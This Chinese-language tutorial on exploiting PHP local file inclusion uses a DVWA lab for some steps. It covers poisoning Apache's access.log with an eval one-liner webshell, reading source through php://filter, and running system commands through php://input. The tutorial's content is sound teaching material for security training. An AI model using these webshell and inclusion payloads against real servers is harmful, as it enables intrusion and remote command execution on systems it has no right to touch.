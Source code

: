 当某个PHP文件存在本地包含漏洞，而却无法上传正常文件，这就意味这有包含漏洞却不能拿来利用，这时攻击者就有可能会利用apache日志文件来入侵。

> Apache服务器运行后会生成两个日志文件，access.log(访问日志)和error.log(错误日志)，apache的日志文件记录下我们的操作，并且写到访问日志文件access.log之中

1、打开配置文件`httpd.conf”第299行
删除井号以取消注释

```
##CustomLog "logs/access.log" common
```

2、将一句话木马写到 url中的fiename 里
虽然会提示失败，但是会记录到日志文件中。**

```
#URL地址
http://xx.com/xx.php?filename=<?php @eval($_POST['123']);?>
#access_log中会有如下内容
..... GET /xx.php?filename=%3C?PHP%20@eval($_POST[%27123%27]);?%3E ......
```

3、然后用包含漏洞包含日志文件
小马就被运行了，但是由于编码的缘故有可能并不生效。用菜刀等工具连接试试

```
#URL
http://xx.com/xx.php?filename=../Apache/logs/access.log
```

##### 3、利用php包含来读文件：

```
# 1 构造URL:x.php是实现传到服务器的一句话木马
http://192.168.1.55:8080/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=x.php
# 2 通过bp抓包可以发现，返回的包里面有一串base64的加密字符串

# 3 将加密字符串解密，可得一句话木马
<?php eval($_POST['cmd']);>
```

##### 4、php包含写文件：

注意:只有在`allow_url_include`为on的时候才可以使用，如果想查看回显结果那还要这样

1. 在C:\php\php-5.2.14-Win32下找到php-apache2handler.ini
2. 打开，查找`display_funtions=proc-open,oppen,exec,system……`
3. 删掉system,然后重启apache。

> 意思就是排除system命令

```
#构造URL:
http://192.168.1.55:8080/dvwa/vulnerabilities/fi/?page=php://input
#抓包，修改提交的post数据为
<?php system('net user');?>
﻿#在返回包中，应该能看到net user命令的执行结果
```
